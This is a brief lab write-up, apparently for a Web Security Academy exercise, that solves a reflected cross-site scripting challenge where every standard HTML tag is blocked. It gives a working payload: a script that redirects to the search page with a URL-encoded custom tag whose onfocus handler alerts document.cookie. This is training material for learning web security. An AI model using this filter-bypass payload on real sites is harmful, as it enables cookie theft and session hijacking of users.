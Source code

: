 *This lab blocks all HTML tags except custom ones.
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.*

Inserted the following payload that has a custom tag in my exploit:
```
<script>
location = 'https://0af3003c031bfb3987e749b200fc0013.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
![Screenshot 2024-05-15 at 1.39.52 PM](images/Screenshot%202024-05-15%20at%201.39.52%20PM.png)
This solves the lab!